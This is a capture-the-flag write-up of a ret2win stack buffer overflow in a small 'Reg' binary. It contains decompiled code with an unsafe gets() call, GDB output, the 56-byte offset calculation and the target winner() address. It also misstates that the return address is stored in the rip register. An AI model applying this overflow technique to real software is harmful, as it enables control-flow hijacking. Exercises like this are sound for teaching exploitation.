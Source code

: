 # Reg 
Let's have a look at what happens when we run the code file:
```
Enter your name : Williloo
Registered!
```
Seems like a simple read function-maybe a buffer overflow attack? Let's have a look at the binary using CodeNinja to figure out how to crack this!

## Code
```
00401206  int64_t winner()

00401206  {
00401218      puts("Congratulations!");
0040122b      FILE* fp = fopen("flag.txt", &data_402015);
00401247      void var_418;
00401247      fgets(&var_418, 0x400, fp);
00401256      puts(&var_418);
00401269      return fclose(fp);
00401206  }


0040126a  int64_t run()

0040126a  {
00401277      initialize();
00401288      printf("Enter your name : ");
00401299      void buf;
00401299      gets(&buf);
004012ac      return puts("Registered!");
0040126a  }


004012ad  int32_t main(int32_t argc, char** argv, char** envp)

004012ad  {
004012b6      run();
004012c1      return 0;
004012ad  }
```
Notice that run is immediately called in main, which uses the 'gets' function. This clues us in that this program is vulnerable to buffer overflow
attacks, as the gets function can easily be overflown. We also notice that there is a winner function which is never called - pretty suspicious for
a buffer overflow attack. We can use this buffer overflow to replace the return address of run to winner, thereby getting us the flag!

## Exploit Formation
Using GDB, we can disass run and set a breakpoint at 0x00000000004012ab (just before it returns) to gather some info. Using a test input, I get
the following GDB output:
```
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────
 RAX  0xc
 RBX  0
 RCX  0x7ffff7e9f887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0x7ffff7fa7a70 (_IO_stdfile_1_lock) ◂— 0
 RSI  1
 R8   0xb
 R9   0
 R10  0x7ffff7d980c8 ◂— 0xf0022000065de
 R11  0x246
 R12  0x7fffffffe118 —▸ 0x7fffffffe39d ◂— '/mnt/c/users/willi/Downloads/reg'
 R13  0x4012ad (main) ◂— push rbp
 R14  0
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffdff0 —▸ 0x7fffffffe000 ◂— 1
 RSP  0x7fffffffdfc0 ◂— 'WILLILOOOO'
 RIP  0x4012ab (run+65) ◂— leave
──────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────
 ► 0x4012ab       <run+65>                        leave
   0x4012ac       <run+66>                        ret                                <main+14>
    ↓
   0x4012bb       <main+14>                       mov    eax, 0     EAX => 0
   0x4012c0       <main+19>                       pop    rbp        RBP => 1
   0x4012c1       <main+20>                       ret                                <__libc_start_call_main+128>
    ↓
   0x7ffff7db4d90 <__libc_start_call_main+128>    mov    edi, eax     EDI => 0
   0x7ffff7db4d92 <__libc_start_call_main+130>    call   exit                        <exit>

   0x7ffff7db4d97 <__libc_start_call_main+135>    call   __nptl_deallocate_tsd       <__nptl_deallocate_tsd>

   0x7ffff7db4d9c <__libc_start_call_main+140>    lock dec dword ptr [rip + 0x1f0505]
   0x7ffff7db4da3 <__libc_start_call_main+147>    sete   al
   0x7ffff7db4da6 <__libc_start_call_main+150>    test   al, al
───────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdfc0 ◂— 'WILLILOOOO'
01:0008│-028 0x7fffffffdfc8 ◂— 0x10101004f4f /* 'OO' */
02:0010│-020 0x7fffffffdfd0 ◂— 2
03:0018│-018 0x7fffffffdfd8 ◂— 0x1f8bfbff
04:0020│-010 0x7fffffffdfe0 —▸ 0x7fffffffe389 ◂— 0x34365f363878 /* 'x86_64' */
05:0028│-008 0x7fffffffdfe8 ◂— 0x64 /* 'd' */
06:0030│ rbp 0x7fffffffdff0 —▸ 0x7fffffffe000 ◂— 1
07:0038│+008 0x7fffffffdff8 —▸ 0x4012bb (main+14) ◂— mov eax, 0
─────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────
 ► 0         0x4012ab run+65
   1         0x4012bb main+14
   2   0x7ffff7db4d90 __libc_start_call_main+128
   3   0x7ffff7db4e40 __libc_start_main+128
   4         0x4010de _start+46
────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Notice that my test input is stored in 0x7fffffffdfc0. Now, I want to find the address of my return address, so I can know how much to overflow the buffer by.
Using 'i f' (info frames), I can find the address of my RIP register to be 0x7fffffffdff8. A simple calculation gets me 0x7fffffffdff8-0x7fffffffdfc0=0x38=56.
Thus, I need 56 arbitrary bytes to overflow my buffer. As for the return address of winner, I can find it using BinaryNinja, which tells me that its address is
00401206. Thus, I can craft the payload by attaching this to the end of 56 arbitrary bytes.

Exploit: [here](exploit.py)

## My Takeaways
This was a textbook changing the return address of the function. It was a pretty early exercise that I did though, so again it gave me great experience playing
around with Binary Ninja and GDB. I mainly learnt how to use the 'i f' command in GDB from this exercise, as well as that the return address of a function is
stored in the rip register, which I found from quick Google searches [here](https://stackoverflow.com/questions/32345320/get-return-address-gdb) and 
[here](https://stackoverflow.com/questions/27429026/understanding-how-eip-rip-register-works).